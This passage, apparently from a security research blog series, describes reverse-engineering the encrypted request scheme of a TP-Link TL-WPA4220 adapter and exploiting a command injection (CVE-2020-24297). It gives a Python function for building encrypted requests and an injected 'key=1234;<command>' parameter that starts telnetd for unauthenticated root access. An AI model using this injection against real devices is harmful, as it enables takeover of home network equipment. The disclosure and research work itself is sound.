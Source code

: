     As a side note, however, it looks like the encryption of our password with RSA does not add any extra security (because this data is later re-encrypted with AES).
1. **For further requests, we don't need to send the AES key or IV anymore** (the server already has them and they are reused). Therefore, we will only have to make a request to the corresponding endpoint with the following contents:
    - `sign=RSA_ENCRYPT("h=MD5(<password>)&s=<seq_number+lenght_of_unencrypted_data>")`
    - `data=AES_ENCRYPT(<data>)`
1. Once we receive the response from an encrypted request, we have to **decrypt the data in the response body with AES (in CBC mode)** using the symmetric key and IV we have chosen.

All encrypted requests (both for login and non-login) can be handled, for instance, with the following Python function:
```python
def send_encrypted_request(target, path, plaintext_data, password, is_login=False):
    url = "http://{}{}".format(target, path)
    encrypted_data = aes_encrypt(plaintext_data)
    m = hashlib.md5(password.encode('utf-8'))
    password_hash = m.hexdigest()
    if is_login:
        sign = rsa_encrypt("k={}&i={}&h={}&s={}".format(key.decode('utf-8'), iv.decode('utf-8'), password_hash,
                                                        seq + len(encrypted_data)))
    else:
        sign = rsa_encrypt("h={}&s={}".format(password_hash, seq + len(encrypted_data)))
    data = {
        "sign": sign,
        "data": encrypted_data
    }
    r = requests.post(url, data=data)
    encrypted_data = r.json().get("data")
    response = aes_decrypt(encrypted_data)
    return response
```

## Pwning the TL-WPA4220

This might have been a little bit challenging, but we finally have our reward: at this point, **we have everything we need to exploit our target**. As we saw in the previous post, to execute a specific command on the device (for example start the `telnetd` daemon), we have to log in and then make a request to the endpoint `/admin/powerline` with the following parameters:
- `form=plc_device`
- `operation=remove`
- `key=1234;<command>`

And we finally know how to send requests to the server!

You can find a PoC of the exploit [here](https://github.com/ocastejon/exploits/blob/main/cve-2020-24297/tplink-wpa4220-rce-exploit.py). Note that this PoC uses (improved versions of) the functions `get_rsa_pubkey_seq` and `send_encrypted_request` defined in the previous section.

After executing the exploit, we can connect via `telnet` to the device (without any credentials) and we have a session as the `root` user:

![The exploit in action](/img/hacking-the-tlwpa4220-part-3/exploit.png "The exploit in action")
